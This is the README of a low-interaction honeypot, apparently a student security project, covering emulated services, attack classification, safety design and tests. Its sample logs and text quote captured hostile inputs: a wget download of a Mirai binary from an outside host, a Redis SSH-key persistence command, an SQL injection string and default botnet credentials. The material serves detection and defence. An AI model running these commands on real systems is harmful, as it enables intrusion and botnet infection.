

# Honeypot Network for Attack Detection

A low-interaction honeypot that runs seven fake services at once, records everything an attacker tries, and cannot itself be compromised — because there is nothing behind the banner.

[](https://www.python.org/)
[](https://docs.python.org/3/library/asyncio.html)
[](tests/)
[](LICENSE)

---

## What a honeypot is for

A honeypot is a service with **no legitimate users**. So every single connection to it is, by definition, unsolicited — reconnaissance, a botnet, or a targeted attack. There are no false positives to filter out, which is what makes a honeypot such a clean intelligence source: anything that talks to it is worth looking at.

This one imitates seven commonly-attacked services convincingly enough that a scanner believes them, records what each attacker does, and classifies it — while executing nothing, touching no filesystem, and running no attacker input as code.

```bash
python -m src.cli demo
```

That command stands up the honeypot, launches a mix of realistic attacks against it (Mirai telnet sweeps, SSH credential stuffing, web vulnerability scans, the Redis SSH-key attack), and prints a report — all on localhost, in about five seconds.

---

## The dashboard



---

## Live capture

```
!! 21:36:19  203.0.113.7     ssh     SSH-2.0-libssh_0.9.6   <- libssh (commonly a credential-stuffing botnet)
 . 21:36:19  203.0.113.7     telnet  login 'root' / 'xc3511'
!! 21:36:20  198.51.100.4    telnet  $ busybox MIRAI        <- BusyBox applet probing (Mirai fingerprint)
!! 21:36:20  198.51.100.4    telnet  $ wget http://185.99.44.12/bins/mirai.arm -O /tmp/x   <- downloading a payload
!! 21:36:20  198.51.100.4    telnet  $ chmod 777 /tmp/x     <- making a payload executable
!! 21:36:21  192.0.2.55      http    GET /.env             <- environment file (credential harvesting)
!! 21:36:21  192.0.2.55      redis   $ CONFIG SET dir /root/.ssh   <- Redis persistence abuse (SSH key or cron injection)
```

Every one of those is classified in real time — the fingerprint after `<-` comes from a library of signatures for real, observed campaigns.

---

## What it captures

| Service | Port | Records | Why it's valuable |
|---|---|---|---|
| **SSH** | 22 | Client version string, auth attempts | The client string (`libssh`, `paramiko`, `Go`) fingerprints the botnet before it sends a password |
| **HTTP** | 80 | Method, path, headers, User-Agent | The requested path identifies the exact campaign (`/.env`, `/wp-login.php`, path traversal) |
| **Telnet** | 23 | Credentials, then shell commands | IoT botnets live here; the first command reveals the payload URL |
| **FTP** | 21 | USER/PASS pairs | Credential-stuffing targets |
| **SMTP** | 25 | HELO, MAIL FROM, RCPT TO | Open-relay probing by spammers |
| **Redis** | 6379 | Commands | The unauthenticated-Redis SSH-key attack |
| **MySQL** | 3306 | Handshake, auth packet | Database credential attempts |

Each emulator's output feeds a classifier that turns raw bytes into a named threat — 14 HTTP exploit signatures, 11 shell-payload signatures, 8 SSH client fingerprints.

---

## The one rule that makes it safe

> **Nothing an attacker sends is ever executed, parsed into code, written to a path they control, or passed to a shell.**

Every service handler does exactly three things: read bytes, record them, write a canned response. There is no filesystem behind the FTP server, no shell behind the telnet prompt, no interpreter behind the Redis port.

This is the line between a honeypot and a compromised machine. A **high-interaction** honeypot — a real OS in a VM that an attacker can actually break into — gathers richer intelligence and is genuinely dangerous to operate: it can be used to attack third parties, and you are liable. This is a **low-interaction** honeypot: it cannot be compromised because there is nothing to compromise. The trade — we learn what an attacker *tried*, never what they'd have done next — is argued honestly in [doc 02](docs/02-design.md).

**And the honeypot defends itself against its own input**, because processing hostile bytes is its entire job:

- Every database write is **parameterised** — an attacker who sends `'; DROP TABLE sessions; --` as a username has it stored as data. *(`test_sql_injection_is_stored_as_data`)*
- The dashboard **escapes attacker text** before rendering — an XSS payload sent as a username does not run in the operator's browser. Being owned by your own honeypot would be a bitterly ironic outcome, so there's a test.
- Control characters and ANSI escapes are **stripped** before anything reaches a log or a terminal, defeating log injection.
- The server binds to **127.0.0.1 by default** — exposing it to the network is opt-in and prints a warning.

---

## Quick start

```bash
git clone https://github.com/<your-username>/honeypot-network.git
cd honeypot-network

python -m venv .venv && source .venv/bin/activate
pip install -r requirements.txt        # only Flask, and only for the dashboard

python -m src.cli demo                  # self-contained showcase
python -m src.cli report                # analyse what was captured
python -m src.app                       # dashboard at http://127.0.0.1:5000
```

To run it for real against live traffic:

```bash
python -m src.cli run                   # localhost, high ports, safe
python -m src.cli run --bind 0.0.0.0    # expose it (understand the risk first)
```

Full setup, and how to safely expose it on a real network, in **[docs/05-deployment.md](docs/05-deployment.md)**.

---

## What the report shows

```
  TOP CREDENTIALS
       6x  'root' / 'root'
       6x  'root' / 'vizxv'
       3x  'root' / 'xc3511'       <- a Mirai default; its presence dates the botnet
       3x  'admin' / 'password'

  WHAT ATTACKERS TRIED
      11x  downloading a payload
      11x  BusyBox applet probing (Mirai fingerprint)
       6x  libssh (commonly a credential-stuffing botnet)
       4x  Redis persistence abuse (SSH key or cron injection)

  TOP SOURCES (by threat)
    198.51.100.4     threat 100 (critical)  8 sessions  3 services
```

The credential list is the headline output. A real deployment fills up with `root/root`, `admin/admin` and `root/xc3511` within hours — a direct, current measurement of what botnets believe, straight from the machines running them.

---

## Architecture

```
                        the internet (or a simulation)
                                    │
              ┌─────────────────────┼─────────────────────┐
              ▼                     ▼                     ▼
         :8022 ssh            :8080 http           :8023 telnet   ...seven ports
              │                     │                     │
              └─────────────────────┼─────────────────────┘
                                    ▼
                    ┌───────────────────────────────┐
                    │  honeypot.py  (asyncio)        │
                    │   one process, all ports       │
                    │   per-connection limits         │
                    │   threat scoring                │
                    └───────────────────────────────┘
                                    │
                    ┌───────────────┼───────────────┐
                    ▼               ▼               ▼
              services.py       store.py        alerting
              (emulators +      (SQLite,        (live console
               classifiers)      parameterised)  + callback)
                                    │
                    ┌───────────────┼───────────────┐
                    ▼               ▼               ▼
              cli report      app.py           (SIEM export,
                              (read-only         future work)
                               dashboard)
```

**One asyncio process handles every port and thousands of concurrent connections** — the right model for a workload that is almost entirely waiting, and one that survives the connection floods a honeypot specifically attracts. [Doc 03](docs/03-architecture.md) explains why threads would fall over here.

---

## Documentation

| # | Document | What it covers |
|---|---|---|
| 01 | [Problem statement](docs/01-problem-statement.md) | What honeypots are for, and where they sit among defences |
| 02 | [Design & safety](docs/02-design.md) | Low- vs high-interaction, and the self-defence measures |
| 03 | [Architecture](docs/03-architecture.md) | asyncio, the service framework, threat scoring |
| 04 | [The services](docs/04-services.md) | Each emulator, and the real attacks it catches |
| 05 | [Deployment](docs/05-deployment.md) | Running it safely on a real network |
| 06 | [Setup & run](docs/06-setup-and-run.md) | Every command, expected output, troubleshooting |
| 07 | [Viva questions](docs/07-viva-questions.md) | 28 examiner questions with answers |
| 08 | [Future work](docs/08-future-work.md) | Honest limitations and what to build next |

---

## Project structure

```
honeypot-network/
├── README.md
├── requirements.txt
├── docs/                      eight-part documentation
├── src/
│   ├── services.py            seven protocol emulators + classifiers
│   ├── honeypot.py            asyncio server, limits, threat scoring
│   ├── store.py               SQLite event store (parameterised)
│   ├── simulate.py            realistic attack traffic for the demo
│   ├── cli.py                 run / demo / report / credentials / attackers
│   └── app.py                 read-only Flask dashboard
├── tests/
│   └── test_all.py            24 tests (10 of them safety tests)
└── logs/                      the SQLite database lands here
```

---

## Honest limitations

**Low-interaction means shallow.** We see the attacker's *first move* and no further — the credential they tried, the path they requested, the first command they ran. We never see what they'd have done after "logging in", because there is nothing to log in to. For deeper intelligence you need a high-interaction honeypot in a sandboxed VM, with all the operational risk that carries. [Doc 02](docs/02-design.md) makes the trade explicit.

**The emulation is imperfect.** A determined attacker can fingerprint this as a honeypot — the SSH key exchange fails, the shell's command set is tiny, the banners are static. Commercial honeypots (and the excellent open-source Cowrie) go much further. Detectability is discussed in [doc 04](docs/04-services.md).

**The demo traffic is simulated.** `simulate.py` plays the attacker so the project is demonstrable without exposing a port to the internet. It opens *real* connections that the honeypot *really* processes and records — only the source is synthetic. Point it at a live network and nothing about the honeypot changes. [Doc 05](docs/05-deployment.md) covers real exposure.

**No live threat-intel enrichment.** Source IPs are recorded but not cross-referenced against reputation feeds (AbuseIPDB, GreyNoise). A natural and valuable extension — [doc 08](docs/08-future-work.md).

---

## Testing

```bash
python tests/test_all.py     # no extra packages needed
python -m pytest -q
```

24 tests, and **ten of them are safety tests** — because a honeypot that can be turned against its operator is worse than no honeypot:

- an SQL-injection username leaves the database intact
- control characters and ANSI escapes are neutralised before logging
- a service that raises on malformed input doesn't crash the server
- the default bind is localhost, never `0.0.0.0`
- log-injection newlines are contained

The rest confirm each service recognises the attacks it claims to, the threat scoring is monotonic, and the full server → store → report pipeline works end to end against real simulated attacks.

---

## License

MIT — see [LICENSE](LICENSE).

## Author

**Priyanshu Manash** — final-year engineering project, cyber security.
